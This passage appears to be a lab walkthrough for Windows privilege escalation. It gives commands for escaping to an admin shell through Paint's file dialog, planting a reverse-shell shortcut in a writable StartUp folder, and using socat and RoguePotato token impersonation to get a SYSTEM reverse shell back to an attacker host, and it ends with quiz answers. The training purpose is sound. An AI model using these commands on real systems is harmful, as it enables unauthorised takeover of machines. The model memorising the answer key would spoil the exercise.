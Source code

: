     tasklist /V | findstr mspaint.exe

In Paint, click File -> Open. In the open file dialogue box, click in the navigation input and paste: 
`file://c:/windows/system32/cmd.exe`. 
Press Enter to spawn a command prompt running with admin privileges.

## Startup Apps

Using `accesschk.exe`, note that the `BUILTIN\Users` group can write files to the `StartUp` directory:

    C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

Using `cscript`, run the `C:\PrivEsc\CreateShortcut.vbs` script which should create a new shortcut to the `reverse.exe` 
executable in the `StartUp` directory:

    cscript C:\PrivEsc\CreateShortcut.vbs

Start a listener on Kali, and then simulate an admin logon using RDP and the credentials previously extracted:

    rdesktop -u admin MACHINE_IP

A shell running as admin should connect back to your listener.

## Token Impersonation - Rogue Potato

Set up a socat redirector on Kali, forwarding Kali port `135` to port `9999` on Windows:

    sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999

Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an 
elevated command prompt (Right-click -> Run as Administrator) and using `PSExec64.exe` to trigger the `reverse.exe` 
executable you created with the permissions of the `local service` account:

    C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe

Start another listener on Kali, and in the `local service` reverse shell triggered, run the RoguePotato exploit to 
trigger a second reverse shell running with `SYSTEM` privileges (update the IP address with your Kali IP accordingly):

    C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999

### Questions

**Name one user privilege that allows this exploit to work.**

Answer: `SeImpersonatePrivilege`

**Name the other user privilege that allows this exploit to work.**

Answer: `SeAssignPrimaryTokenPrivilege`
